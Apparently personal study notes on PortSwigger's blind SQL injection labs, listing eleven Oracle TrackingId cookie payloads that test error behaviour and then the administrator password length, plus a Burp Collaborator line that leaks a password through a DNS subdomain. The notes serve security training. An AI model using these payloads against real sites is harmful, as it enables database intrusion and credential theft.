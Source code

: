 ![](Pasted%20image%2020250222202602.png)

En burp-collab: **password**.dominioCOLLAB.oastify.com
![](Pasted%20image%2020250222203157.png)

### LAB: Blind SQL injection with conditional errors `exfiltrate password admin`

* https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors

> The SQL payload above can also be used to extract the Administrator password

```js
1. TrackingId=xyz'
2. TrackingId=xyz''
3. TrackingId=xyz'||(SELECT '')||'
4. TrackingId=xyz'||(SELECT '' FROM dual)||'
5. TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
6. TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
7. TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
8. TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
9. TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
10. TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
11. TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```